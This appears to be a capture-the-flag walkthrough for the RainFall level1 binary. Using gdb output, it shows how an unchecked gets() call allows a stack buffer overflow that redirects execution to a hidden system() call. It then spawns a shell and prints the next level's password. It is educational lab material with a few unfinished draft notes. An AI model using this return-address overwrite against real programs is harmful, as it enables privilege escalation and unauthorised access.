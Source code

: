 # Level 0

Once logged in, you will see a binary `level1`.

```
$ ssh level1@localhost -p 4242
          _____       _       ______    _ _
         |  __ \     (_)     |  ____|  | | |
         | |__) |__ _ _ _ __ | |__ __ _| | |
         |  _  /  _` | | '_ \|  __/ _` | | |
         | | \ \ (_| | | | | | | | (_| | | |
         |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level1@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
level1@RainFall:~$ ls
level1
level1@RainFall:~$ XXX: put in ls -l
```

Let's run this and see what this does.
```
level1@RainFall:~$ ./level1

```

It seems it tries getting input, so let's try typing something.

```
level1@RainFall:~$ ./level1
aaa
level1@RainFall:~$
```

It does nothing, so let's run gdb to see what's going on.

```
level1@RainFall:~$ gdb level1
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50
   0x08048489 <+9>:     lea    eax,[esp+0x10]
   0x0804848d <+13>:    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
gdb-peda$
```

It seems there must be some more, and we can check the list of functions by the command on gdb: `info functions`.

```
Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_glo
```

There are some system calls, but we see a function `run`. let's check that function.

```
gdb-peda$ disass run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
gdb-peda$
```

Now, the function `run` is initialized, but there is no way the function `run` is called. But on main, we can see the `gets` function is used. The `gets` function has a vulnerability (as noted in its [man page](https://linux.die.net/man/3/gets)), as the input length is not checked:

```
Bugs
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```

This means we can use a buffer overflow attack to modify the memory on the stack to "return" to the `run` function at the end of the main function. To do this, we'll need to figure out the location of `run` in memory and put that in the `eip` register.

In `main`, the whole stack frame is allocated with a size of `0x50` (80 in decimal). Note that this includes both the stack frame as well as any memory allocated, in this case 64 (XXX: check) bytes for the `gets` buffer.

```
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50          // <- here
   0x08048489 <+9>:     lea    eax,[esp+0x10]
```

Let's try running the program with the parameter of length 80 and see how it works:

```
level1@RainFall:~$ python -c "print 'A' * 80" | ./level1
Segmentation fault (core dumped)
```

The program crashes with a segmentation fault. Checking on the debugger, we can see the `eip` register is overwritten the character `AAAA`!

```
gdb-peda$ run <<< $(python -c "print 'A' *80")

[----------------------------------registers-----------------------------------]
EAX: 0xbffff6b0 ('A' <repeats 80 times>)
EBX: 0xb7fd0ff4 --> 0x1a4d7c
ECX: 0xb7fd28c4 --> 0x0
EDX: 0xbffff6b0 ('A' <repeats 80 times>)
ESI: 0x0
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff700 --> 0x0
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x210286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff700 --> 0x0
0004| 0xbffff704 --> 0xbffff794 --> 0xbffff8b3 ("/home/user/level1/level1")
0008| 0xbffff708 --> 0xbffff79c --> 0xbffff8cc ("SHELL=/bin/bash")
0012| 0xbffff70c --> 0xb7fdc858 --> 0xb7e2c000 --> 0x464c457f
0016| 0xbffff710 --> 0x0
0020| 0xbffff714 --> 0xbffff71c --> 0x0
0024| 0xbffff718 --> 0xbffff79c --> 0xbffff8cc ("SHELL=/bin/bash")
0028| 0xbffff71c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$
```

If we replace the last `AAAAAAAA` with the address of the function `run`, instead of a segmentation fault caused from invalid return address, the run function will be executed.

```
level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat -) | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
